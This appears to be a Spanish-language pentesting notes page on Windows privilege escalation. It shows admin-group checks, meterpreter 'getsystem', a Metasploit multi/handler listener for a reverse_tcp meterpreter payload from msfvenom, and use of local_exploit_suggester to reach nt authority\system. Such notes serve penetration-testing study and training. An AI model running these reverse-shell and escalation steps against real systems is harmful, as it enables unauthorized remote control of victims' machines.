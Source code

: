 # 🪟 Windows

## Bypassing UAC con UACMe

{% hint style="info" %}
El Control de Cuentas de Usuario (UAC) en Windows es una característica de seguridad que previene cambios no autorizados en el sistema. Cuando una acción requiere permisos administrativos, UAC solicita la confirmación del usuario mediante una ventana emergente. Esto ayuda a proteger contra malware y modificaciones no deseadas, asegurando que solo usuarios autorizados puedan realizar cambios críticos en el sistema.

![](<../.gitbook/assets/image (1) (1).png>)
{% endhint %}

{% hint style="warning" %}
Para poder usar este método, necesitamos tener acceso a una cuenta que pertenezca al grupo de administradores locales de windows.

Para comprobarlo, podemos ejecutar los siguientes comandos:

```powershell
net users

net localgroup administrators
```

Ejemplo de un caso, en el que es viable este método:

![](<../.gitbook/assets/image (2) (1).png>)
{% endhint %}

## Elevación automática con Metasploit

Cuando tenemos una consola meterpreter, podemos usar el comando "`getsystem`" para realizar una sencilla elevación de privilegios de manera automática:

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

## Metasploit + Msfvenom&#x20;

Podemos escalar privilegios con metasploit en windows. En primer lugar deberemos de generar un payload con msfvenom ( [#reverse-shell-tcp-con-exe](../explotacion/msfvenom.md#reverse-shell-tcp-con-exe "mention")) y pasarlo a nuestra maquina victima.

Después desde la maquina atacante, nos ponemos a la escucha con metasploit a través de multi/handler. Deberemos de ejecutar los siguientes comandos:

{% hint style="warning" %}
Los valores de los comandos de Metasploit deben ser lo mismos con los que se ha generado el payload en msfvenom (.exe) que está en la maquina victima
{% endhint %}

```bash
msfconsole

use /multi/handler

set LHOST 192.168.1.12    # IP Maquina atacante

set LPORT 4444 # Debe ser el mismo puerto que el que hemos puesto en el payload de msfvenom

set PAYLOAD windows/meterpreter/reverse_tcp # Debe ser el mismo que el que hemos puesto en el payload de msfvenom

run
```

Ahora ejecutamos el payload en la maquina victima y obtenemos una sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
En muchos casos en los que nos encontramos con que tenemos una meterpreter ya en el sistema, podemos ejecutar el comando "`run post/multi/recon/local_exploit_suggester`" para poder enumerar potenciales exploits para la escalada.
{% endhint %}

Una vez en la sesión de meterpreter (NO EN LA CMD DE WINDOWS), ponemos "`background`" y "`search local_exploit_suggester`":

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esta opción nos dará el exploit más adecuado para la escalada, lo seleccionamos "`use 0`" y miramos las opciones que tiene. En este caso, nos pide el ID de la sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el ID de la sesión (lo puedes averiguar con el comando "`sessions -l`"). Ejecutamos:

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, nos aparecerá una lista en colores verde y rojo. Los payloads de color rojo deberemos de omitirlos y centrarnos en los de verde.

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cualquiera de estos podría funcionar (no está asegurado), usamos uno de ellos seleccionándolo:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, ajustamos los valores necesarios ("`show options`"). Si el modulo funciona obtendremos una sesión de meterpreter en la que podremos abrir una shell ("`shell`") como `nt authority\system`. En el caso de que no funcione volvemos atrás ("`back`") y probamos con otro
